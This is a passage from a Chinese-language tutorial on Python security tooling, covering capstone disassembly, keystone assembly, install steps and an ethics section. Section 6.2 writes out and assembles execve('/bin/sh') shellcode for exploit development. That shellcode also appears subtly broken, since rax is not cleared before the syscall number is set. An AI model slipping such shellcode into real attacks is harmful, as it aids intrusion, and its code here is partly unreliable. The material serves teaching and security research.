        if insn.regs_read():
            regs = [insn.reg_name(r) for r in insn.regs_read()]
            print(f"读寄存器: {', '.join(regs)}")
        if insn.regs_write():
            regs = [insn.reg_name(r) for r in insn.regs_write()]
            print(f"写寄存器: {', '.join(regs)}")

        # 操作数详情
        for i, op in enumerate(insn.operands):
            if op.type == X86_OP_REG:
                print(f"  操作数[{i}]: 寄存器 {insn.reg_name(op.reg)}")
            elif op.type == X86_OP_IMM:
                print(f"  操作数[{i}]: 立即数 0x{op.imm:x}")
            elif op.type == X86_OP_MEM:
                print(f"  操作数[{i}]: 内存引用")
                if op.mem.base != 0:
                    print(f"    基址: {insn.reg_name(op.mem.base)}")
                if op.mem.index != 0:
                    print(f"    变址: {insn.reg_name(op.mem.index)}")
                if op.mem.disp != 0:
                    print(f"    偏移: 0x{op.mem.disp:x}")

# 使用
code = b"\x8b\x45\xfc\x01\xd8\x89\x45\xf4"
disassemble_with_detail(code, CS_ARCH_X86, CS_MODE_64)
```

### 5.4 实用场景：识别函数边界

```python
from capstone import *

def find_function_prologues(binary_data, base_addr=0):
    """识别常见函数序言模式"""
    md = Cs(CS_ARCH_X86, CS_MODE_64)
    md.detail = True

    # 常见函数序言模式
    prologue_patterns = [
        b"\x55\x48\x89\xe5",        # push rbp; mov rbp, rsp（标准序言）
        b"\x48\x89\x5c\x24",        # mov [rsp+?], rbx（叶函数序言）
        b"\x41\x57\x41\x56",        # push r15; push r14
    ]

    functions = []
    for pattern in prologue_patterns:
        offset = 0
        while True:
            idx = binary_data.find(pattern, offset)
            if idx == -1:
                break
            # 验证是否是有效的函数序言（检查后续指令）
            insn_list = list(md.disasm(binary_data[idx:idx+20], base_addr + idx))
            if len(insn_list) >= 2:
                functions.append({
                    'offset': base_addr + idx,
                    'instructions': [(f"0x{i.address:x}: {i.mnemonic} {i.op_str}") for i in insn_list[:5]]
                })
            offset = idx + 1

    return functions
```

---

## 6. 汇编引擎：keystone

### 6.1 从汇编到机器码

keystone 是 capstone 的逆向伙伴——将汇编指令编码为机器码。两者组合构成了完整的二进制分析工具链：

```python
from keystone import *

# ========== 基本汇编 ==========
ks = Ks(KS_ARCH_X86, KS_MODE_64)

# 单条指令
encoding, count = ks.asm("mov rax, 0x12345678")
print(bytes(encoding).hex())  # 48c7c078563412（mov rax, 0x12345678 的字节编码）

# 多条指令（分号分隔）
assembly = """
    push rbp
    mov rbp, rsp
    sub rsp, 0x20
    mov dword ptr [rbp-4], 0
    mov eax, 1
    leave
    ret
"""
encoding, count = ks.asm(assembly)
print(f"编码 {count} 条指令，共 {len(encoding)} 字节")
print(bytes(encoding).hex())

# ========== 指定起始地址 ==========
# 地址会影响相对跳转的编码
encoding, _ = ks.asm("jmp short $+5", addr=0x1000)
print(f"跳转指令: {bytes(encoding).hex()}")

# ========== 不同架构 ==========
# ARM
ks_arm = Ks(KS_ARCH_ARM, KS_MODE_ARM)
encoding, _ = ks_arm.asm("ldr r3, [r0]")
print(f"ARM: {bytes(encoding).hex()}")

# MIPS
ks_mips = Ks(KS_ARCH_MIPS, KS_MODE_MIPS32 + KS_MODE_BIG_ENDIAN)
encoding, _ = ks_mips.asm("addu $1, $0, $0")
print(f"MIPS: {bytes(encoding).hex()}")

# ========== 错误处理 ==========
try:
    encoding, count = ks.asm("invalid_instruction rax, 123")
except KsError as e:
    print(f"汇编错误: {e}")
```

### 6.2 Shellcode 开发实战

```python
from keystone import *

def assemble_shellcode(assembly: str, arch=KS_ARCH_X86, mode=KS_MODE_64):
    """汇编代码到 shellcode 字节，带安全检查"""
    ks = Ks(arch, mode)
    encoding, count = ks.asm(assembly)

    shellcode = bytes(encoding)

    # 安全检查
    checks = {
        'null_bytes': b'\x00' in shellcode,
        'newline_bytes': b'\x0a' in shellcode,
        'length': len(shellcode),
    }

    return shellcode, checks

# 手写 execve("/bin/sh") shellcode
shellcode_asm = """
    /* execve("/bin/sh", NULL, NULL) */
    xor    rsi, rsi          /* argv = NULL */
    xor    rdx, rdx          /* envp = NULL */
    mov    rax, 0x68732f6e69622f  /* "/bin/sh\0" 的小端编码 */
    push   rax
    mov    rdi, rsp          /* rdi = "/bin/sh" */
    mov    al, 59            /* syscall number: execve = 59 */
    syscall
"""

shellcode, checks = assemble_shellcode(shellcode_asm)
print(f"Shellcode ({checks['length']} 字节): {shellcode.hex()}")
print(f"包含 null 字节: {checks['null_bytes']}")
print(f"包含换行符: {checks['newline_bytes']}")

# 验证：与 capstone 互逆
from capstone import *
md = Cs(CS_ARCH_X86, CS_MODE_64)
print("\n反汇编验证:")
for insn in md.disasm(shellcode, 0):
    print(f"  {insn.mnemonic}\t{insn.op_str}")
```

---

## 7. 库之间的协作模式

### 7.1 完整的漏洞利用工具链

这六个库在安全研究中通常不是孤立使用的，而是形成完整的工具链：



### 7.2 安装与环境配置

```bash
# ========== 一键安装所有安全库 ==========
pip install cryptography scapy pwn capstone keystone-engine

# pwntools 会自动安装 capstone 和其他依赖

# ========== 常见问题解决 ==========
# Scapy 权限问题（需要 root 发送原始包）
sudo setcap cap_net_raw,cap_net_admin=eip $(which python3)

# pwntools 更新
pip install --upgrade pwntools

# cryptography 编译问题（缺少 OpenSSL 开发头文件）
# Debian/Ubuntu:
sudo apt-get install libssl-dev libffi-dev python3-dev
# RHEL/CentOS:
sudo yum install openssl-devel libffi-devel python3-devel
```

---

## 8. 安全使用原则

### 8.1 法律与道德边界

使用这些工具必须严格遵守法律和道德准则：

1. **授权测试**：所有安全测试必须获得书面授权
2. **范围限制**：严格限定测试范围，不得越界
3. **数据保护**：测试过程中发现的敏感数据必须妥善处理
4. **漏洞披露**：发现漏洞应通过负责任的渠道披露
5. **记录留存**：保留所有测试操作的完整日志

### 8.2 常见错误与规避

| 错误 | 后果 | 规避方法 |
|------|------|---------|
| MD5/SHA1 用于密码存储 | 彩虹表攻击瞬间破解 | 使用 bcrypt/argon2 |
| ECB 模式加密 | 模式泄露，可篡改 | 使用 GCM/CBC+HMAC |
| nonce/IV 复用 | 完整性破坏 | 每次加密使用随机 IV |
| RSA 密钥太短（<2048） | 可被暴力分解 | 使用 4096 位 |
| Scapy 在生产网段扫描 | 触发 IDS/IPS 告警 | 使用隔离测试网络 |
| pwntools shellcode 含 null | 被字符串函数截断 | 选择无 null 的 shellcode |
| capstone 错误的架构设置 | 反汇编结果完全错误 | 确认目标二进制的架构 |

---

本章覆盖了 Python 安全生态中最核心的六大库。从哈希算法（hashlib）到现代加密（cryptography），从网络包操作（Scapy）到漏洞利用开发（pwntools），从二进制分析（capstone）到代码生成（keystone），它们共同构成了安全研究者的基础工具箱。掌握这些工具不仅需要理解 API，更需要理解底层的密码学原理、网络协议和系统安全机制。在后续的实践中，这些库将反复出现，成为你安全研究之旅的忠实伙伴。
